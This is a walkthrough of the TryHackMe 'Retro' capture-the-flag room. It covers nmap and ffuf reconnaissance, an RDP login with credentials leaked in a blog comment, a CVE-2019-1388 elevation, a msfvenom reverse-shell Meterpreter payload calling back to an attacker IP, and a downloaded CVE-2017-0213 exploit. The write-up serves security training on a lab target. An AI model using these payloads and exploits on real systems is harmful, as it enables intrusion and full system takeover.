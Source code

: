 # Retro

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Intro

| Room Info           | ![](.gitbook/assets/retro.jpeg)           |
| :------------------ | ----------------------------------------- |
| 🔗 Name              | [Retro](https://tryhackme.com/room/retro) |
| 🎯 Target IP         | `10.10.181.110`                           |
| 📈 Difficulty level  | 🟢Easy                                     |
| 💲 Subscription type | Free                                      |
| 🪟 🐧OS               | Windows                                   |

---

## Recon

```bash
mkdir retro
cd retro
nmap 10.10.181.110
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

nmap -sV -sC -Pn -oA retro 10.10.181.110
```

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-05-13T11:52:02+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-12T11:48:35
|_Not valid after:  2023-11-11T11:48:35
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-13T11:51:57+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
```

Perform Web Server directories enumeration.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.181.110/FUZZ

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 281ms]
    * FUZZ: retro
```

The enumeration found a folder named **`/retro`**.

Use a browser to navigate to:

- `http://10.10.181.110/retro/index.php/2019/12/09/ready-player-one/`

> 📌 Wade user left a comment with his password

![](.gitbook/assets/image-20230513140001737.png)

Use the credentials to login to the target via the open RDP Port `3389`

- `Wade`:`parzival`

> I suggest to set the `Remmina` RDP resolution to a higher one, **`e.g`**
>
> - Open Remmina, `+` to create a Quick RDP Connect, select the resolution and `Save as Default`
>
> ![](.gitbook/assets/image-20230513142438083.png)

```bash
remmina -c rdp://wade@10.10.181.110

# It will open with the default set up resolution
```

-  🚩 Open the **`user.txt`** file on Wade's user desktop to get the first flag.

```bash
3b99f***************************

```

---

## Exploitation

Open `Internet Explorer` to initialize it.

Open `Google Chrome` and set it as **Default web browser** in Windows.

![](.gitbook/assets/image-20230513142712637.png)

The bookmarked link refers to the [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) - Windows Certificate Dialog Elevation of Privilege Vulnerability.

Check the Recycle Bin and restore the `hhupd` file.

![](.gitbook/assets/image-20230513140747457.png)

Exploit the privesc vulnerability present in the Windows Certificate Dialog Box and run `cmd` with **Administrator** privileges.

![](.gitbook/assets/image-20230513141237572.png)

![](.gitbook/assets/image-20230513141306088.png)

- Even after the initialization of both the IE and Chrome browsers, there might not be any option for selecting the browser in the opened window.

![](.gitbook/assets/image-20230513152711279.png)

### Meterpreter

Generate a manual payload to get a Metasploit Meterpreter session on the target.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.65.48 LPORT=4444 -f exe -o unprivileged-payload.exe
```

```bash
# Start a webserver in the same payload directory
python -m http.server 80
```

Download the payload on the target browser from this link

- `http://10.18.65.48/unprivileged-payload.exe`

Open Metasploit and set up a handler to listen on the `4444` port

```bash
msfconsole -q

setg RHOSTS 10.10.181.110
setg RHOST 10.10.181.110
use exploit/multi/handler
# Same as the generated payload
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.18.65.48 
set LPORT 4444
run
```

Run the `unprivileged-payload.exe` file on the target machine

![Wade Privileges Meterpreter](.gitbook/assets/image-20230513160120206.png)

Get `systeminfo` from the target and save the output to a file.

```bash
shell
systeminfo
```

![](.gitbook/assets/image-20230513170606987.png)

---

## Privilege Escalation

Exploit the [CVE-2017-0213 - Windows COM Elevation of Privilege Vulnerability](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

- Download the `CVE-2017-0213_x64.zip` package, unzip it and upload the **`CVE-2017-0213_x86.exe`** to the target.

```bash
wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/2b944b52ee30f8833a21f0805d2627ca1f15383a/CVE-2017-0213/CVE-2017-0213_x86.zip
```

```bash
# In the Meterpreter session
upload CVE-2017-0213_x86.exe
```

Run the `CVE-2017-0213_x86.exe` file from the Meterpreter session or using the RDP connection on the target.

```bash
shell
.\CVE-2017-0213_x86.exe
```

- Check the `CMD` as Administrator session on the target.

![Elevated CMD Session](.gitbook/assets/image-20230513171909558.png)

- 🚩 Read the `root.txt` file

```bash
cd c:\Users\Administrator\Desktop
type root.txt
7958b***************************
```

![](.gitbook/assets/2024-10-20_22-28-24_764.png)

- Remember that there can be other attack vectors to exploit target's vulnerabilities.

------

